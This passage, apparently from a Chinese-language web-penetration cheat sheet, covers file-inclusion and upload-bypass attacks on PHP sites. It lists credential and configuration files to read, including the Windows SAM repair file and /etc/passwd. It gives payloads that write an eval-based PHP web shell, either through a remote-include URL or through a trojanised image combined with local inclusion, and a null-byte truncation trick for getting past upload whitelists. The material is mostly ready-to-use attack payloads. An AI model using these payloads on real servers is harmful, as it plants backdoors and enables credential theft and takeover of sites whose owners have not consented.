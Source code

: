 Windows:
```
c:\boot.ini
c:\windows\systems32\inetsrv\MetaBase.xml
c:\windows\repair\sam
c:\windows\php.ini             php配置文件
c:\windows\my.ini      
```

LINUX:
```
/etc/passwd
/usr/local/app/apache2/conf/http.conf
/usr/local/app/php5/lib/php.ini          PHP相关设置
/etc/httpd/conf/http.conf   apache配置文件
/etc/my.cnf  mysql配置文件

```

4. 远程包含shell
test.txt文件，可以保存在远程服务器上，内容如下：
```php
<?fputs(fopen("shell.php","w"),"<?php eval($_POST[nmask]);?>")?>

```
如果目标网站存在远程包含漏洞，则可以通过访问：`http://www.xxx1.com/index.php?page=http://www.xx2.com/test.txt`则会在服务器根目录下生产一个shell.php内容为:
`<?php   eval($_POST[nmask]);?>`

5. 本地包含配合文件上传
如果目标服务器关闭了`allow_url_fopen`，则可以尝试使用本地包含+文件上传
上传一个图片木马a.jpg，内容为：
`<?fputs(fopen("shell.php","w"),"<?php eval($_POST[tzc]);?>")?>`
访问URL：`http://www.xxx.com/index.php?page=./a.jpg`在本地生成shell.php。



# 白名单绕过
- 0x00截断
基于一个组合逻辑漏洞，通常存在于构造上传文件路径的时候
```
test.php(0x00).jpg
test.php%00.jpg

```
代码演示：

```

name= getname(httprequest) //假如这时候获取到的文件名是 help.asp.jpg(asp 后面为 0x00)
type =gettype(name) //而在 gettype()函数里处理方式是从后往前扫描扩展名，所以判断为 jpg
if(type == jpg)
SaveFileToPath(UploadPath.name, name) //但在这里却是以 0x00 作为文件名截断
//最后以 help.asp 存入路径里

```
